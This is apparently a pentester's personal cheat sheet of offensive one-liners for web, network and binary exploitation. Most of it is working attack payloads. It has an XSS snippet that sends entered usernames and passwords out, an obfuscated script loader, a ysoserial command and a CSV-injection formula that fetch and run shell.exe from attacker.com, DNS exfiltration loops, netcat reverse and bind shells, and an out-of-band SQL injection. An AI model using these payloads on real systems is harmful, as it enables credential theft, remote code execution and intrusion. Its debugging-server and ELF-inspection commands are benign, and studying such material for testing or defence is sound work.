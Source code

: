 ```yaml
---
layout: default
tag: notes
---
```


## Web Exploitation

1. \[Payloads\] Cross Site Scripting Attack

   * Exfilterate password with Ajax jquery

   ```javascript
$.get("https://localhost/"+document.getElementsByName('username')[2].value+document.getElementsByName('password')[3].value,0);
```

   * Include external JS script in script context with Ajax jquery

   > *Mainly useful when payload size is very restrictive*

   ```javascript
$.getScript(String.fromCharCode(104,116,116,112,58,47,47,120,115,115,47,116,46,106,115),1)
```

2. \[Payloads\] Deserialization Attacks

   * Dealing with `.exec()` problem in Blind Java Deserialization

   ```bash
java -jar ysoserial.jar CommonsCollections1 'sh -c $@|sh . echo ping $(whoami).<attacker.com>' | base64 | tr -d "\n"
```

3. \[Payloads\] CSV Injection Out of band Exploitation

   ```bash
=cmd|' /C powershell Invoke-WebRequest "https://attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

## Network

1. DNS Exfiltration

   * On Victim machine Linux
   ```bash
for i in `ls`; do host $i.domain.com domain.com;done
```
   * On Attacker's machine
   ```bash
tcpdump -vvv -s 0 -l -n dst host domain.com and dst port 53 -w dump
```
   * To view data only for saved packet dump
   ```bash
tcpdump -r dump|cut -d"?" -f2|awk 'split($0,a,".domain"){print a[1]}'|sort -u
```

2. Reverse and Bind shells  

   * Reverse shell With Traditional Netcat [Without -e flag]
   ```bash
/usr/bin/mknod /tmp/bp p;/bin/nc <attacker_ip> 1337 0</tmp/bp | /bin/sh 1>/tmp/bp
```
   ```bash
/usr/bin/mkfifo /tmp/mf;/bin/nc <attacker_ip> 1337 < /tmp/mf | /bin/sh &>/tmp/mf
```

   * Bind shell with Traditional Netcat [Without -e flag]
   ```bash
	/usr/bin/mkfifo /tmp/bmf;nc -lk 1337 0< /tmp/bmf | /bin/sh &>/tmp/bmf
```

3. Debugging Servers

   * HTTPS Server
   {% highlight python %}

# Generate Server Certificate 
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# python simple-https-server.py

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('localhost', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()

   {% endhighlight %}

   * SMTP Server
   ```bash
python -m smtpd -n -c DebuggingServer localhost:25
```


## Binary Exploitation

1. Linux

   1. Find the offset of /bin/sh in libc
    ```bash
strings -a -t x /lib/libc-2.11.2.so |grep "/bin/sh"
```

    2. Find ROP gadgets
    ```bash
objdump -d -M intel ./<binary.elf>|grep -B5 "ret"
```
    3. Find if stack is execuatble and writable memory locations
    ```bash
readelf -lS ./<binary.elf>
```
    4. Find memory address of Global offset table
    ```Bash
objdump -R ./binary.elf
```
    5. Get Entry point of ELF file
    ```Bash
readelf -h ./binary.elf
```
    6. Get file headers, section headers and program headers
    ```Bash
readelf -e ./binary.elf
```

## MISC

* Important Links

  * Windows One liners to download and execute payload
      * [https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)


  * \[MySQL\] Out of Band SQL Injection \[Without Quotes\] 
    ```bash
    12,13) union select LOAD_FILE(group_concat(0x2f2f2f2f,(select @@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2 -- 
    ```
  * Transfer large files over network
    * <u>nc & tar</u>
      ```bash
      tar -cf - <dir>|nc <attacker_ip> <port>
      nc -lnvp <port> |tar -xf -
      ```
